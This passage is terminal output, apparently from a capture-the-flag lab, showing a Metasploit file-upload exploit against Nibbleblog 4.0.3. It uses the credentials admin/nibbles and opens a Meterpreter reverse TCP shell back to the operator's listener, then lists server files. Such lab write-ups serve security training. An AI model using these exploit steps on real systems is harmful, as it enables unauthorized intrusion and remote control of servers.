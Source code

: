 ```

Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.93      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nibbleblog 4.0.3



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/nibbleblog_file_upload) > set PASSWORD nibbles
PASSWORD => nibbles
msf6 exploit(multi/http/nibbleblog_file_upload) > set RHOSTS 10.129.105.157
RHOSTS => 10.129.105.157
msf6 exploit(multi/http/nibbleblog_file_upload) > set TARGETURI nibbleblog/
TARGETURI => nibbleblog/
msf6 exploit(multi/http/nibbleblog_file_upload) > set USERNAME admin
USERNAME => admin
msf6 exploit(multi/http/nibbleblog_file_upload) > run

[*] Started reverse TCP handler on 10.10.14.93:4444 
[*] Sending stage (39927 bytes) to 10.129.105.157
[+] Deleted image.php
[*] Meterpreter session 1 opened (10.10.14.93:4444 -> 10.129.105.157:60584) at 2023-10-20 09:02:55 -0400

meterpreter > 
meterpreter > ls
Listing: /var/www/html/nibbleblog/content/private/plugins/my_image
==================================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  258   fil   2023-10-20 09:02:54 -0400  db.xml

meterpreter > 
```